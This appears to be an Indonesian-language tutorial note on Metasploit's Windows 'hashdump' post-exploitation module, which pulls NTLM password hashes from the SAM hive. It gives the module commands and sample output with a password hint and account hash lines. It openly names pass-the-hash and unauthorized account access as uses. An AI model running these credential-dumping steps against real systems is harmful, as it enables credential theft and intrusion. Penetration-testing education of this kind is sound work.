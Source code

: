 # hashdump

Modul `hashdump` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengekstrak `hash password` dari file `SAM` (Security Account Manager) pada komputer target. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (biasanya via meterpreter dengan hak SYSTEM) dan akan membaca isi `SAM` serta `SYSTEM registry hive` untuk memperoleh `hash NTLM` dari akun-akun lokal, sehingga berguna untuk serangan lanjutan seperti pass-the-hash, cracking password, atau akses tidak sah ke akun lain di jaringan.

## Cara Penggunaan di Metasploit

```
use use post/windows/gather/hashdump
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 719ee74fc86782fded26e05e9802b0c9...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

admin:"10101010"

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:afd92ce617b3210a7243ac63c8b3cf98:::
loginbang:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


[*] Post module execution completed
```
